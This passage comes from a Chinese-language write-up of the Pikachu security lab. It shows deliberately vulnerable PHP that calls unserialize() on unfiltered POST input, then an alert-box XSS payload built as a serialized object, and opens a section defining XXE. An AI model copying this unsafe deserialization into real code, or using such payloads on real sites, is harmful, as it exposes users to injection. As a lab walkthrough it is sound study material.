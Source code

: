 | __set_state()  | 调用var_export()导出类时，此静态方法会被调用 |
| __clone        |             当对象复制完成时调用             |
| __autoload()   |              尝试加载未定义的类              |
| __debugInfo()  |               打印所需调试信息               |



接受序列化数据，并将其反序列化

![](https://i.loli.net/2021/02/14/vhR5pwWGieZ4ack.png)

源码：

```php
class S{
    var $test = "pikachu";
    function __construct(){		#此处魔法函数被重新，设定直接输出test内容
        echo $this->test;		
    }
}
$html='';
if(isset($_POST['o'])){
    $s = $_POST['o'];			#以post的方式传参给$o
    if(!@$unser = unserialize($s)){#赋值给$unser；@无回显；
        $html.="<p>大兄弟,来点劲爆点儿的!</p>";
    }else{
        $html.="<p>{$unser->test}</p>";#赋值成功则将其反序列化并作为p标签返回
    }
}
```

此处会输出$s反序列化后的值(无waf)，则提交一个序列化参数=》反序列化=》序列化前的值

由此构造payload(xss)：

![](https://i.loli.net/2021/02/14/xDzmHyfnXh1McJu.png)

```php
O:1:"S":1:{s:4:"test";s:27:"<script>alert(111)</script>";}
```

放进去就行啦

![](https://i.loli.net/2021/02/14/ZChqMt43TzxGs5y.png)



## XXE

> XXE -"xml external entity injection"即"xml外部实体注入漏洞"。
>
> 攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题，
> 也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。
>
> 由于程序在解析输入的XML数据时，解析了攻击者伪造的外部实体而产生的
